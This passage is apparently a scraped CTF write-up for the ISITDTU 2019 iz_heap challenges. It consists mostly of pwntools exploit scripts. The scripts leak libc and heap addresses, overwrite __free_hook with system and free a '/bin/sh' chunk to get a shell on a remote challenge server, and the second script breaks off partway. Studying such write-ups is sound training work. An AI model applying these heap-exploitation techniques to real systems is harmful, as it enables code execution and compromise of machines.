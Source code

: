 ```python
free(20)
edit(1,0x18,p64(libc.sym['__free_hook']))
edit(2,0x18,"/bin/sh\x00")
edit(3,0x18,p64(libc.sym['system']))

context.log_level='debug'
free(2)

#gdb.attach(p,'b *0x000000000400B24')
#ISITDTU{d800dab9684113a5d6c7d2c0381b48c1553068bc}
p.interactive()
```

# iz_heap_lv2
漏洞点一样..利用好像更简单当时写的忘记了...直接放exp吧
```python
from pwn import *
def cmd(c):
	p.sendlineafter(": \n",str(c))
def add(size,c):
	cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
def free(idx):
	cmd(3)
	p.sendlineafter(": ",str(idx))
def edit(idx,size,c):
	cmd(2)
	p.sendlineafter(": ",str(idx))
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
def show(idx):
	cmd(4)
	p.sendlineafter(": ",str(idx))
def index(add):
	return (add-0x000000000602040)/8
context.log_level='debug'
libc=ELF("./libc.so.6")
#libc=ELF("./iz_heap_lv2").libc
#p=process("./iz_heap_lv2")
#p=process('./iz_heap_lv2',env={"LD_PRELOAD":"./libc.so.6"})
p=remote("165.22.110.249",4444)

add(0x000000000601fa0,"n132")#0
show(index(0x0000000006020e0))
p.readuntil(": ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-libc.sym['puts']
log.warning(hex(base))
add(0x88,"n132")#1
add(0x000000000602048,"n132")#2

show(index(0x0000000006020f0))
p.readuntil(": ")
heap=u64(p.readline()[:-1].ljust(8,'\x00'))
log.warning(hex(heap))


add(heap,"n132")#3
free(index(0x0000000006020f8))
free(1)

libc.address=base
```

[1]: https://github.com/n132/WriteUps/tree/master/2019_ISITDTU